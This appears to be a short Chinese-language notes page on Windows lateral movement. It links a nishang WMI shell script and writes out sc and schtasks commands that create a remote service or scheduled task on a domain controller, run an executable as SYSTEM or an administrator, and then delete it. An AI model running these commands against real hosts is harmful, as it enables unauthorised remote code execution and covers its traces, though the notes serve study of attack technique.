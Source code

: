 ![](/sourcepictures/2017/11/06/6/5.jpg)

####powershell remoting  
感觉实质上还是操作wmi实现的一个执行程序

https://github.com/samratashok/nishang/blob/5da8e915fcd56fc76fc16110083948e106486af0/Shells/Invoke-PowerShellWmi.ps1


####SC创建服务执行  
一定要注意的是binpath这些设置的后面是有一个**空格**的
```
1、系统权限(其中test为服务名)
sc \\DC1 create test binpath= c:\cmd.exe
sc \\DC1 start test
sc \\DC1 delete test

2.指定用户权限启动
sc \\DC1 create test binpath = "c:\1.exe" obj= "centoso\administrator" passwrod= test
sc \\DC1 start test
```

####schtasks  
schtasks计划任务远程运行  
```
命令原型：
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /?

For example:
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host
```
验证失败：win03连到08,xp连到08,xp连到03(但是并没有真正的成功执行,不知道是不是有姿势错了)  
![](/sourcepictures/2017/11/06/6/6.jpg)
